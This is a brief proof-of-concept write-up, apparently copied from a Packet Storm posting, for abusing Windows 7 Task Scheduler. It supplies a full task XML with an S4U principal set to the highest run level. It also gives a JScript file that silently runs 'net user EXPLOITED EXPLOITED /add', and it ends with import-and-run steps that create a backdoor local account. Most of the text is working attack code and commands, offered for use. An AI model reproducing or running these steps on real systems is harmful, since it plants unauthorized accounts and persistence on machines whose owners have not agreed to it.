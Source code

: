 From：https://packetstormsecurity.com/files/142191

TestOS: Win7x86

### 1. get useid

cmd:

`whoami`

### 2. create file "w00tw00t.xml"

code:

```
<?xml version="1.0" encoding="UTF-16"?>
<Task version="1.2" xmlns="http://schemas.microsoft.com/windows/2004/02/mit/task">
  <RegistrationInfo>
    <Date>1337-01-01T13:37:07.9601296</Date>
    <Author>NT-AUTHORITY\SYSTEM</Author>
  </RegistrationInfo>
  <Triggers />
  <Principals>
    <Principal id="Author">
      <UserId>win-r7mm90erbmd\a</UserId>
      <LogonType>S4U</LogonType>
      <RunLevel>HighestAvailable</RunLevel>
    </Principal>
  </Principals>
  <Settings>
    <MultipleInstancesPolicy>Parallel</MultipleInstancesPolicy>
    <DisallowStartIfOnBatteries>true</DisallowStartIfOnBatteries>
    <StopIfGoingOnBatteries>true</StopIfGoingOnBatteries>
    <AllowHardTerminate>true</AllowHardTerminate>
    <StartWhenAvailable>true</StartWhenAvailable>
    <RunOnlyIfNetworkAvailable>false</RunOnlyIfNetworkAvailable>
    <IdleSettings>
      <StopOnIdleEnd>true</StopOnIdleEnd>
      <RestartOnIdle>false</RestartOnIdle>
    </IdleSettings>
    <AllowStartOnDemand>true</AllowStartOnDemand>
    <Enabled>true</Enabled>
    <Hidden>false</Hidden>
    <RunOnlyIfIdle>false</RunOnlyIfIdle>
    <WakeToRun>false</WakeToRun>
    <ExecutionTimeLimit>P3D</ExecutionTimeLimit>
    <Priority>7</Priority>
    <RestartOnFailure>
      <Interval>PT1M</Interval>
      <Count>3</Count>
    </RestartOnFailure>
  </Settings>
  <Actions Context="Author">
    <Exec>
      <Command>%USERPROFILE%\Desktop\EXPLOIT.JS</Command>
    </Exec>
  </Actions>
</Task>
```

Change it: `<UserId>win-r7mm90erbmd\a</UserId>`

Save to `%USERPROFILE%\Desktop\w00tw00t.xml`

### 3. create file "EXPLOIT.JS"

code:

```
suidshell = WScript.CreateObject("WScript.Shell");
suidshell.run("cmd.exe /c net user EXPLOITED EXPLOITED /add", 0);
```

Save to `%USERPROFILE%\Desktop\EXPLOIT.JS`

### 4. Run 'taskschd.msc' -> Import Task.. -> Select and Open: w00tw00t.xml -> Run

Add user EXPLOITED

Tips:

- requires administrator permission to import Task




